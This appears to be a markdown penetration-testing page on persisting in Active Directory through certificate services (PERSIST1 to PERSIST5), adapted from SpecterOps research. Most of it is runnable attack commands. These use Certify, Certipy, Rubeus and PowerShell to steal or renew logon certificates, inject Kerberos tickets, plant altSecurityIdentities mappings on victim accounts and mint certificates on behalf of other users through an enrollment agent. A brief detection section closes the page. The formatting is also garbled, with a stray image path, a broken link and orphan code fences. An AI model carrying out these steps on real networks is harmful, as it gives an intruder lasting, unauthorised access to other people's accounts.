# AD CS Account Persistence


**This is a small summary of the account persistence chapters of the awesome research from [[https://specterops.io/assets/resources/Certified_Pre-Owned.pdf|https://specterops.io/assets/resources/Certified_Pre-Owned.pdf]]**

## Understanding Active User Credential Theft with Certificates – PERSIST1

In a scenario where a certificate that allows domain authentication can be requested by a user, an attacker has the opportunity to request and steal this certificate to maintain persistence on a network. By default, the `User` template in Active Directory allows such requests, though it may sometimes be disabled.

Using [[https://github.com/GhostPack/Certify) or [Certipy](https://github.com/ly4k/Certipy|Certify]], you can search for enabled templates that allow client authentication and then request one:

```bash
# Enumerate client-auth capable templates
Certify.exe find /clientauth

# Request a user cert from an Enterprise CA (current user context)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User

# Using Certipy (RPC/DCOM/WebEnrollment supported). Saves a PFX by default
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' -template 'User' -out user.pfx
```
```
A certificate’s power lies in its ability to authenticate as the user it belongs to, regardless of password changes, as long as the certificate remains valid.

You can convert PEM to PFX and use it to obtain a TGT:

```bash
# Convert PEM returned by Certify to PFX
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Use certificate for PKINIT and inject the TGT
Rubeus.exe asktgt /user:john /certificate:C:\Temp\cert.pfx /password:CertPass! /ptt

# Or with Certipy
certipy auth -pfx user.pfx -dc-ip 10.0.0.10
```
```
> Note: Combined with other techniques (see THEFT sections), certificate-based auth allows persistent access without touching LSASS and even from non-elevated contexts.

## Gaining Machine Persistence with Certificates - PERSIST2

If an attacker has elevated privileges on a host, they can enroll the compromised system’s machine account for a certificate using the default `Machine` template. Authenticating as the machine enables S4U2Self for local services and can provide durable host persistence:

```bash
# Request a machine certificate as SYSTEM
Certify.exe request /ca:dc.theshire.local/theshire-DC-CA /template:Machine /machine

# Authenticate as the machine using the issued PFX
Rubeus.exe asktgt /user:HOSTNAME$ /certificate:C:\Temp\host.pfx /password:Passw0rd! /ptt
```
```
## Extending Persistence Through Certificate Renewal - PERSIST3

Abusing the validity and renewal periods of certificate templates lets an attacker maintain long-term access. If you possess a previously issued certificate and its private key, you can renew it before expiration to obtain a fresh, long-lived credential without leaving additional request artifacts tied to the original principal.

```bash
# Renewal with Certipy (works with RPC/DCOM/WebEnrollment)
# Provide the existing PFX and target the same CA/template when possible
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
            -template 'User' -pfx user_old.pfx -renew -out user_renewed.pfx

# Native Windows renewal with certreq
# (use the serial/thumbprint of the cert to renew; reusekeys preserves the keypair)
certreq -enroll -user -cert <SerialOrID> renew [reusekeys]
```
```
> Operational tip: Track lifetimes on attacker-held PFX files and renew early. Renewal can also cause updated certificates to include the modern SID mapping extension, keeping them usable under stricter DC mapping rules (see next section).

## Planting Explicit Certificate Mappings (altSecurityIdentities) – PERSIST4

If you can write to a target account’s `altSecurityIdentities` attribute, you can explicitly map an attacker-controlled certificate to that account. This persists across password changes and, when using strong mapping formats, remains functional under modern DC enforcement.

High-level flow:

1. Obtain or issue a client-auth certificate you control (e.g., enroll `User` template as yourself).
2. Extract a strong identifier from the cert (Issuer+Serial, SKI, or SHA1-PublicKey).
3. Add an explicit mapping on the victim principal’s `altSecurityIdentities` using that identifier.
4. Authenticate with your certificate; the DC maps it to the victim via the explicit mapping.

Example (PowerShell) using a strong Issuer+Serial mapping:

```powershell
# Example values - reverse the issuer DN and serial as required by AD mapping format
$Issuer  = 'DC=corp,DC=local,CN=CORP-DC-CA'
$SerialR = '1200000000AC11000000002B' # reversed byte order of the serial
$Map     = "X509:<I>$Issuer<SR>$SerialR"

# Add mapping to victim. Requires rights to write altSecurityIdentities on the object
Set-ADUser -Identity 'victim' -Add @{altSecurityIdentities=$Map}
```
```
Then authenticate with your PFX. Certipy will obtain a TGT directly:

```bash
certipy auth -pfx attacker_user.pfx -dc-ip 10.0.0.10
```
```
Notes
- Use strong mapping types only: X509IssuerSerialNumber, X509SKI, or X509SHA1PublicKey. Weak formats (Subject/Issuer, Subject-only, RFC822 email) are deprecated and can be blocked by DC policy.
- The cert chain must build to a root trusted by the DC. Enterprise CAs in NTAuth are typically trusted; some environments also trust public CAs.

For more on weak explicit mappings and attack paths, see:

[[domain-escalation.md]]

## Enrollment Agent as Persistence – PERSIST5

If you obtain a valid Certificate Request Agent/Enrollment Agent certificate, you can mint new logon-capable certificates on behalf of users at will and keep the agent PFX offline as a persistence token. Abuse workflow:

```bash
# Request an Enrollment Agent cert (requires template rights)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:"Certificate Request Agent"

# Mint a user cert on behalf of another principal using the agent PFX
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User \
                   /onbehalfof:CORP\\victim /enrollcert:C:\Temp\agent.pfx /enrollcertpw:AgentPfxPass

# Or with Certipy
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
           -template 'User' -on-behalf-of 'CORP/victim' -pfx agent.pfx -out victim_onbo.pfx
```
```
Revocation of the agent certificate or template permissions is required to evict this persistence.

## 2025 Strong Certificate Mapping Enforcement: Impact on Persistence

Microsoft KB5014754 introduced Strong Certificate Mapping Enforcement on domain controllers. Since February 11, 2025, DCs default to Full Enforcement, rejecting weak/ambiguous mappings. Practical implications:

- Pre-2022 certificates that lack the SID mapping extension may fail implicit mapping when DCs are in Full Enforcement. Attackers can maintain access by either renewing certificates through AD CS (to obtain the SID extension) or by planting a strong explicit mapping in `altSecurityIdentities` (PERSIST4).
- Explicit mappings using strong formats (Issuer+Serial, SKI, SHA1-PublicKey) continue to work. Weak formats (Issuer/Subject, Subject-only, RFC822) can be blocked and should be avoided for persistence.

Administrators should monitor and alert on:
- Changes to `altSecurityIdentities` and issuance/renewals of Enrollment Agent and User certificates.
- CA issuance logs for on-behalf-of requests and unusual renewal patterns.

## References

- Microsoft. KB5014754: Certificate-based authentication changes on Windows domain controllers (enforcement timeline and strong mappings).
  https://support.microsoft.com/en-au/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16
- Certipy Wiki – Command Reference (`req -renew`, `auth`, `shadow`).
  https://github.com/ly4k/Certipy/wiki/08-%E2%80%90-Command-Reference


